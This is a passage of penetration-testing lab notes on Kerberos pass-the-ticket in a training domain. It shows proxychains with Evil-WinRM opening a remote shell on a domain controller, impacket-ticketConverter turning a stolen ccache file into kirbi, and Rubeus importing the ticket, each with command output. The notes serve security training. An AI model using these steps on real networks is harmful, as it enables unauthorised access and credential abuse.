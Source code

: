 
#### Using Evil-WinRM with Kerberos

```sh
proxychains evil-winrm -i dc01 -r inlanefreight.htb

[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14

Evil-WinRM shell v3.3

Warning: Remote path completions are disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc01:5985  ...  OK
*Evil-WinRM* PS C:\Users\julio\Documents> whoami ; hostname
inlanefreight\julio
DC01
```

## Miscellaneous
* If we want to use a `ccache file` in Windows or a `kirbi file` in a Linux machine, we can use [impacket-ticketConverter](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py) to convert them

#### Impacket Ticket Converter
* Specify the file we want to convert and the output filename

```sh
impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] converting ccache to kirbi...
[+] done
```

#### Importing Converted Ticket into Windows Session with Rubeus

```powershell
C:\htb> C:\tools\Rubeus.exe ptt /ticket:c:\tools\julio.kirbi

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.1.2


[*] Action: Import Ticket
[+] Ticket successfully imported!
C:\htb> klist

Current LogonId is 0:0x31adf02

```